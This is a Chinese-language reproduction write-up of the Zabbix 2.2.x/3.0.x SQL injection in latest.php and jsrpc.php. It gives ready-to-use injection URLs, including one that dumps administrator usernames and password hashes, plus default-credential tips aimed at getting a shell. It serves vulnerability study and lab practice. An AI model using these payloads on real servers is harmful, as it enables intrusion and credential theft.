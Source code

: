 #### 概述

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

zabbix 2.2.x, 3.0.0-3.0.3版本存在SQL注入漏洞，攻击者无需授权登陆即可登陆zabbix管理系统

Zabbix 的`latest.php中的toggle_ids[]`或`jsrpc.php中的profieldx2参数`存在sql注入，通过sql注入获取管理员账户密码，进入后台，进行getshell操作。



#### 复现

#### latest.php中的toggle_ids[]

需要靶机系统未关闭默认开启guest账户登陆，zabbix 默认账户Admin密码zabbix（弱口令尝试一波~）

使用username：guest，password为空的游客账户登陆

![](https://i.loli.net/2021/02/13/f325W7Ja8FOEejr.png)

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](https://i.loli.net/2021/02/13/xBVOFagXmtnzeru.png)

将这16个字符作为sid的，构造payload：

```
http://your-ip:8080/latest.php?output=ajax&sid=******************&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/8uvI9oCdWnzlmYO.png)

#### jsrpc.php的profieldx2参数

也可以通过jsrpc.php触发，且无需登陆

```
http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,database(),0xa,user()),0)
```

如下：

![](https://i.loli.net/2021/02/13/HaBdrgTc81yhO5S.png)



#### getshell

然后就是常规的注入流程啦。拿到管理员账户密码~

payload:

```
http://yourip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0x7e,substr((select group_concat(surname,0x2a,passwd) from users ),1)),0)
```
